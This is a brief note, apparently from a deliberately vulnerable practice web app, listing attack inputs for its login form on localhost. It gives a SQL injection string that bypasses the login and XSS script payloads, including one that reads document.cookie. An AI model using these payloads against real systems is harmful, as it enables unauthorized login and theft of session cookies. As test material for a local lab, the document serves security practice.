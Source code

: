 * SQLi
    * http://localhost:8005
      * LoginForm -> Username ->   admin2' or '1'--
* XSS
    * http://localhost:8005
      * XSS LoginForm -> Username ->    <script>alert('hello');</script>
                                        <script>alert(document.cookie);</script>
     